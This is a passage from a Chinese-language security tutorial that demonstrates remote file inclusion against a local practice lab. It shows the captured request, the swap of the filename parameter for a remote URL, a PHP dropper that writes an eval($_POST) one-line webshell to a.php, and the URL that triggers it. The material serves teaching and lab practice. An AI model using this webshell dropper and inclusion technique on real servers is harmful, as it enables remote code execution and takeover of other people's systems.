 ```
<?php phpinfo(); ?>
```

此处我使用 Trmper Chrome 去抓包，然后在题目上的下拉菜单中选一个，点“提交”：

![图片2.png](https://s0.lgstatic.com/i/image/M00/94/50/CgqCHmAX4CWALTY8AAQPl3E0Ay4160.png)

图 2 用 Tamper Chrome 抓包

得到 GET 请求地址与参数，可以看出用于包含文件的参数 filename 被设置为 "include/file3.php"：

复制代码

```
http://127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=include%2Ffile3.php&submit=%E6%8F%90%E4%BA%A4
```

修改 filename 参数为[http:/127.0.0.1/phpinfo.php](http://www.1491.com.tw/phpinfo.php)，该 phpinfo.php 就执行 phpinfo() 函数，访问如下 URL：

复制代码

```
http://127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/phpinfo.php&submit=%E6%8F%90%E4%BA%A4
```

phpinfo 执行成功了：

![图片3.png](https://s0.lgstatic.com/i/image/M00/94/50/CgqCHmAX4DSAJYH3AAQINnkRH5s611.png)

图 3 远程文件包含执行 phpinfo

接入来利用就简单了，我们直接远程包含一个创建一句话木马的 txt 文件，不用 PHP 后缀是为了避免在自己服务器被执行。

为了演示，我在 [http://127.0.0.1/shell.txt](http://127.0.0.1/shell.txth) 创建文件（如果你没有自己的服务器，去 github 上存储一个木马文件也是可行的），写入如下代码，用于生成一句话木马：

复制代码

```
<?php

  $a = "<?php eval(\$_POST['Cknife'])?>";

  file_put_contents("a.php",$a);

?>
```

然后访问如下 URL 就会在服务端生成一句话木马文件 a.php：

复制代码

```
http://127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/shell.txt&submit=%E6%8F%90%E4%BA%A4
```
